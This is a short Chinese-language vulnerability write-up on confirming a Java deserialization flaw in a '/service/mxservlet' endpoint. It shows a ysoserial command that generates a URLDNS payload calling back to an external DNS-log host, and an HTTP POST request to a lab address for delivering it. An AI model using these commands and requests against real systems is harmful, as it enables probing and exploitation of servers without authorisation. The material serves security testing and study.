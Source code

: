 ## 反序列化漏洞验证

在利用 cc 链进行命令执行前，可以使用 URLDNS 对之前的阅读源码的理解进行验证。

> java -jar ysoserial-all.jar URLDNS "[http://mxtest.97886226fd.ipv6.1433.eu.org."](https://97886226fd.ipv6.1433.eu.org./) >mxtest.bin

之后，构造请求数据包，请求的路径为之前构造出来的路径，以`/service/mxservlet`为例  
将生成的序列化数据直接从文件中粘贴。

```php
POST /service/mxservlet HTTP/1.1
Host: 192.168.126.131:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: application/data
Cookie: JSESSIONID=AE08AAAA9C9FC99389408FE028A93302.server
Connection: close
```

![image.png](assets/1699929342-f8603c05a72c300bebd0a0caebdb9200.jpg)  
在 dnslog 中获得请求，证明该路径下确实存在对请求数据包中的对象直接反序列化的问题。  